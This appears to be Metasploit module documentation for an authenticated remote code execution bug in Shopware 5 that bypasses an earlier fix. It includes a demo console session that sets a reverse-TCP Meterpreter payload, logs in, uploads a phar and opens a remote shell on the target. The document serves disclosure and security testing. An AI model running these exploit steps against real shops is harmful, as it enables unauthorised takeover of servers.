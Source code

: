 ## Background

Shopware 5 is the next generation of open source e-commerce software made in Germany. Based on bleeding edge technologies like Symfony 3, Doctrine 2 & Zend Framework Shopware comes as the perfect platform for your next e-commerce project. Furthermore Shopware 5 provides an event-driven plugin system and an advanced hook system, giving you the ability to customize every part of the platform..

In the createInstanceFromNamedArguments method, a vulnerability was discovered initially by [@KarimOuerghemmi](https://twitter.com/KarimOuerghemmi) of RIPS who rated the bug as a CVSS 3.6 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) due to discovering an XXE exploitation primitive. Later on, Steven Seeley (mr_me) of Source Incite bypassed the whitelist patch and found an RCE primitive via PHP object injection. Note that authentication is required to exploit this vulnerability.

This vulnerability is a bypass for CVE-2017-18357 and was tested on Shopware git branches 5.6, 5.5, 5.4, 5.3.

## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Debian GNU/Linux 9 (stretch) x64
- MariaDB latest
- Apache2 / PHP 7.2.15

For installation instructions, please refer to the [Shopware installation guide](https://github.com/shopware/shopware#installation-via-git).

## References

- [https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)

## Notes

The recommended CVSS score is 7.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N).

## Credit

Steven Seeley (mr_me) of Source Incite

## Demo

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/shopware.rc 
[*] Processing scripts/shopware.rc for ERB directives.
resource (scripts/shopware.rc)> use exploit/multi/http/shopware_createinstancefromnamedarguments_rce
resource (scripts/shopware.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (scripts/shopware.rc)> set LHOST 192.168.23.1
LHOST => 192.168.23.1
resource (scripts/shopware.rc)> set RHOSTS 192.168.23.164
RHOSTS => 192.168.23.164
resource (scripts/shopware.rc)> set RPORT 8080
RPORT => 8080
resource (scripts/shopware.rc)> check
[+] 192.168.23.164:8080 - The target is vulnerable.
resource (scripts/shopware.rc)> exploit
[*] Started reverse TCP handler on 192.168.23.1:4444 
[+] Stage 1 - logged in with demo: SHOPWAREBACKEND=kitv5998u4qu2o1sq25v4kvv1j;
[+] Stage 2 - leaked the webroot: /var/www/html
[+] Stage 3 - generated our phar
[+] Stage 4 - leaked the CSRF token: eQ25IftJ3NGKx2WXBG4b00dTeoA8Pj
[+] Stage 5 - uploaded phar
[+] Stage 6 - leaked phar location: media/image/6f/fc/7f/mlofhujx.jpg
[+] Stage 7 - triggered object instantiation!
[*] Sending stage (38247 bytes) to 192.168.23.174
[*] Meterpreter session 1 opened (192.168.23.1:4444 -> 192.168.23.174:33254) at 2019-05-09 14:44:46 -0500
[!] This exploit may require manual cleanup of 'qdvtvgqu.php' on the target
[!] This exploit may require manual cleanup of 'image/6f/fc/7f/mlofhujx.jpg' on the target

meterpreter > 
[+] Deleted qdvtvgqu.php
[+] Deleted image/6f/fc/7f/mlofhujx.jpg

meterpreter > sysinfo
Computer    : 45835d649528
OS          : Linux 45835d649528 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > 
```